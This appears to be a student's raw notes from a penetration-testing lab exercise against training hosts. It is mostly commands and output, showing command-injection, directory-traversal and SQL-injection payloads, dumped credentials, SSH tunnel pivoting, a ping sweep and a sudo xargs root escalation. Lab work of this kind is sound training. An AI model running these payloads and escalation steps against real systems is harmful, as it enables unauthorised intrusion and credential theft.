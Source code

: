 HAST-006-M
97dGQEcQWgSxAzo
base64 and rot13 encoding throughout this module
linux - 10.50.31.3
windows - 10.50.44.112

BOX1 - 10.50.41.56

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /robots.txt: Robots file
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /share/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

http://10.50.41.56/Onlinetools/tools.php
select story to read is susceptible to command injection
opened the Possible_end.txt to find middle name of President

http://10.50.41.56/share/Untitled_Diagram.png
see network map
192.168.28.0/27
192.168.28.160/27

by doing ";uname -r" the kernel version is  4.15.0-88-generic 

ls -lisa /var/www/html we see there are a total of 5 directoriess
total 36 drwxr-xr-x 2 root root 4096 Dec 9 2021 Onlinetools 
-rw-r--r-- 1 root root 2806 Nov 23 2021 PE2_style.css 
drwxr-xr-x 2 root root 4096 Dec 9 2021 images 
-rw-r--r-- 1 root root 5448 Nov 23 2021 index.html 
drwxr-xr-x 3 root root 4096 Dec 9 2021 newtest 
-rw-r--r-- 1 root root 38 Nov 23 2021 robots.txt 
drwxr-xr-x 2 root root 4096 Dec 9 2021 share 
drwxr-xr-x 2 root root 4096 Oct 16 02:41 stories
drwxr-xr-x 2 root root 4096 Oct 16 02:41 stories


cat /etc/passwd found comment and home directory to perform ssh key using command injection:
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
www-data:x:33:33:ApjxpkHuatfcMiuWuxdh:/var/www:/bin/sh 
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash 
openupthedoor:x:1001:1001::/home/openupthedoor:/bin/bash

total 12 drwxrwxr-x 3 root www-data 4096 Dec 9 2021 . 
drwxr-xr-x 14 root root 4096 Dec 9 2021 .. 
drwxr-xr-x 7 root root 4096 Dec 9 2021 html

got on box through a MS tunnel ssh -MS /tmp/mind www-data@10.50.41.56

www-data@ministry-defense-19:~$ for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
64 bytes from 192.168.28.30: icmp_seq=1 ttl=64 time=0.573 ms (IGNORE)
64 bytes from 192.168.28.177: icmp_seq=1 ttl=63 time=1.58 ms
64 bytes from 192.168.28.182: icmp_seq=1 ttl=63 time=2.04 ms
64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.360 ms (IGNORE)

set up a dynamic tunnel 
ssh -S /tmp/mind mind -O forward -D9050

use proxychains nmap to find ports open on new ips 
`student@lin-ops:~$ proxychains nmap -T4 -Pn -sT -v 192.168.28.177,182`

Nmap scan report for 192.168.28.177
Host is up (0.0015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.28.182
Host is up (0.0014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

lets look at port 80 on .182
Nmap scan report for 192.168.28.182
Host is up (0.0060s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /login/: Login page
|   /robots.txt: Robots file
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1500:192.168.28.182:80
launch browser

http://127.0.0.1:1500/Onlinetools/lookup.php? susceptible to directory traversal
../../../../etc/hosts
we find that this device can talk to Defence_Nix1 and find host name resolution question 


http://127.0.0.1:1500/login/loginin.html vulnerable to sql injection
tom' or 1='1
Array
(
    [0] => Msmith
    [name] => Msmith
    [1] => Squanchy
    [password] => Squanchy
)
1Array
(
    [0] => Fpalic
    [name] => Fpalic
    [1] => Birdperson
    [password] => Birdperson
)
1Array
(
    [0] => Kmichae
    [name] => Kmichae
    [1] => MrMeeseeks
    [password] => MrMeeseeks
)

using hyperlink in inital page led to this:
http://127.0.0.1:1500/forces/forcespick.php?Locations=6%20or%201=1
which is suceptible to sql injection

un:Rsanch        pwd:ScaryTerry
un:Msmith        pwd:Squanchy
un:Fpalic        pwd:Birdperson
un:Kmichae       pwd:MrMeeseeks

lets try to brute force either the .177 or .182

student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1501:192.168.28.182:22
student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1502:192.168.28.177:22

student@lin-ops:~$ ssh Fpalic@127.0.0.1 -p 1502
worked for .177
is the only one that works thus far

sudo -l see can take advantage of xargs
$ sudo xargs -a /root /bin/bash istantly became root hehe

ss -ntlpu found weird 21254 port
tcp      LISTEN     0          1                           0.0.0.0:21254              0.0.0.0:*        users:(("SecurityOnion",pid=1116,fd=3))                                                              
root@defense-nix1-19:/# cat /root/svch0st.sh 
find reference # and nc listener script as we see

root@defense-nix1-19:/home/devops# scp -r RE_this student@10.50.44.112:C:
copied to my windows box, used ghidra to decode it and saw num >> 2 == 21 i used this 
https://bit-calculator.com/bit-shift-calculator to help find that a num that fits the first input is 85 
